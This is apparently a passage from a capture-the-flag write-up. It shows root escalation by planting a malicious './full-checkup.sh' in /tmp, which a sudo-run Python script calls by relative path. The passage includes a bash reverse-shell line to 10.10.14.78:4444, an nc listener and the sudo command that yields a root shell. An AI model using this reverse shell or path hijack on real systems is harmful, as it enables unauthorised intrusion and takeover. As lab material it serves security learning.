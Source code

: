 
Here's our way out of here. In the `arg_list` variable (line 25), the script searches for a file with the path `./full-checkup.sh`, which is relative to the user's current execution location. By creating our own `full-checkup.sh` file (with malicious code), we can escalate privileges to root.


```bash
cd /tmp 
vim full-checkup.sh 
```

Inside the file:


```vim
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.78/4444 0>&1
```

Finally, the icing on the cake is:


```shell 
(local) $ nc -lvp 4444
$ chmod +x full-checkup.sh 
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
# whoami
root
```
